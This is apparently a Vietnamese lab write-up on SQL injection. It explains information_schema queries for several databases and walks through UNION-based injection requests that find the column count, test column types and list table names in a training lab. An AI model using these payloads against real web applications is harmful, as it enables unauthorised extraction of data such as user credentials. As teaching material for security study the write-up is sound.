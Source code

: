 Hầu hết các loại cơ sở dữ liệu (trừ Oracle) đều có một tập hợp các view gọi là information schema. View này cung cấp thông tin về cơ sở dữ liệu.

* Truy vấn liệt kê các bảng trong cơ sở dữ liệu sẽ có đầu ra trả về như sau:

TABLE_CATALOG | TABLE_SCHEMA | TABLE_NAME   | TABLE_TYPE
--------------|--------------|--------------|--------------
MyDatabase    | dbo          | Products     | BASE TABLE
MyDatabase    | dbo          | Users        | BASE TABLE
MyDatabase    | dbo          | Feedback     | BASE TABLE

* Truy vấn liệt kê các cột trong bảng riêng lẻ sẽ có đầu ra trả về như sau:

TABLE_CATALOG | TABLE_SCHEMA | TABLE_NAME   | COLUMN_NAME  | DATA_TYPE
--------------|--------------|--------------|--------------|--------------
MyDatabase    | dbo          | Users        | UserId       | int
MyDatabase    | dbo          | Users        | Username     | varchar
MyDatabase    | dbo          | Users        | Password     | varchar

```sql
Oracle 	    SELECT * FROM all_tables
            SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
Microsoft 	SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
PostgreSQL 	SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
MySQL     	SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

## Ví dụ
**Lab: SQL injection attack, listing the database contents on non-Oracle databases**

* Xác định số cột trả về trong truy vấn gốc

 ```http
GET /filter?category=Accessories' UNION SELECT NULL--            //500 Internal Server Error
GET /filter?category=Accessories' UNION SELECT NULL,NULL--       //200 OK
GET /filter?category=Accessories' UNION SELECT NULL,NULL,NULL--  //500 Internal Server Error
 ```

 Số cột bằng `2`.

* Xác định kiểu dữ liệu của các cột

 ```http
GET /filter?category=Accessories' UNION SELECT 'abc',NULL--       //200 OK
GET /filter?category=Accessories' UNION SELECT NULL,'abc'--       //200 OK
```

Cả `2` cột chứa hoặc chấp nhận dữ liệu chuỗi.

* Xác định `TABLE_NAME` của cơ sở dữ liệu.

```sql
GET /filter?category=' UNION SELECT TABLE_NAME,NULL FROM information_schema.tables-- 
```
Tìm được `TABLE_NAME: users_fdpkec`
